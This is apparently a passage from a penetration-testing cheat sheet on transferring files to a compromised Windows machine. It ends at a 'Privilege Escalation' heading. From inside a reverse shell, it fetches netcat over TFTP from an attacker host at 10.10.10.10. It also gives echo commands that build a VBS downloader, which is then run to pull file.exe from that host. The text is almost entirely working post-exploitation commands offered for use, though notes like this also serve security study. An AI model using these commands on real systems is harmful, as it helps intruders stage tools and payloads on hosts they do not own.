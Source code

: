 ```
ftp -v -n -s:ftp.txt

“Name the filename as ‘file’ on your kali machine so that you don’t have to re-write the script multiple names, you can then rename the file on windows.”
```

```
TFTP

# In Kali
atftpd --daemon --port 69 /tftp

# In reverse shell
tftp -i 10.10.10.10 GET nc.exe
```

```
VBS

If FTP/TFTP fails you, this wget script in VBS is the go to on Windows machines.

# In reverse shell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

# Execute
cscript wget.vbs http://10.10.10.10/file.exe file.exe
```

## Privilege Escalation
